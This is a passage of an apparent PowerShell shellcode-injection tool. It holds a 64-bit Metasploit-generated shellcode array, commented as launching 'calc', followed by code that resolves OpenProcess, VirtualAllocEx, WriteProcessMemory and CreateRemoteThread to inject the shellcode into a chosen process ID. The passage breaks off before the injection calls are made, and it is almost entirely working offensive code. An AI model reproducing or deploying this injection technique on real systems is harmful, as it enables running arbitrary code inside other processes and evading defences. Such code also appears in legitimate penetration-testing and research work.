 
        # 64-bit payload
        # msfpayload windows/x64/exec CMD="calc" EXITFUNC=thread
        [Byte[]] $Shellcode64 = @(0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,
                                  0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,
                                  0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
                                  0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,
                                  0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,
                                  0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
                                  0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,
                                  0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,
                                  0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
                                  0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,
                                  0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,
                                  0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
                                  0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,
                                  0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,
                                  0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
                                  0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,
                                  0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x00)
    }

    if ( $PSBoundParameters['ProcessID'] )
    {
        # Inject shellcode into the specified process ID
        $OpenProcessAddr = Get-ProcAddress kernel32.dll OpenProcess
        $OpenProcessDelegate = Get-DelegateType @([UInt32], [Bool], [UInt32]) ([IntPtr])
        $OpenProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($OpenProcessAddr, $OpenProcessDelegate)
        $VirtualAllocExAddr = Get-ProcAddress kernel32.dll VirtualAllocEx
        $VirtualAllocExDelegate = Get-DelegateType @([IntPtr], [IntPtr], [Uint32], [UInt32], [UInt32]) ([IntPtr])
        $VirtualAllocEx = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualAllocExAddr, $VirtualAllocExDelegate)
        $WriteProcessMemoryAddr = Get-ProcAddress kernel32.dll WriteProcessMemory
        $WriteProcessMemoryDelegate = Get-DelegateType @([IntPtr], [IntPtr], [Byte[]], [UInt32], [UInt32].MakeByRefType()) ([Bool])
        $WriteProcessMemory = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($WriteProcessMemoryAddr, $WriteProcessMemoryDelegate)
        $CreateRemoteThreadAddr = Get-ProcAddress kernel32.dll CreateRemoteThread
        $CreateRemoteThreadDelegate = Get-DelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
        $CreateRemoteThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($CreateRemoteThreadAddr, $CreateRemoteThreadDelegate)
        $CloseHandleAddr = Get-ProcAddress kernel32.dll CloseHandle
        $CloseHandleDelegate = Get-DelegateType @([IntPtr]) ([Bool])
        $CloseHandle = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($CloseHandleAddr, $CloseHandleDelegate)
    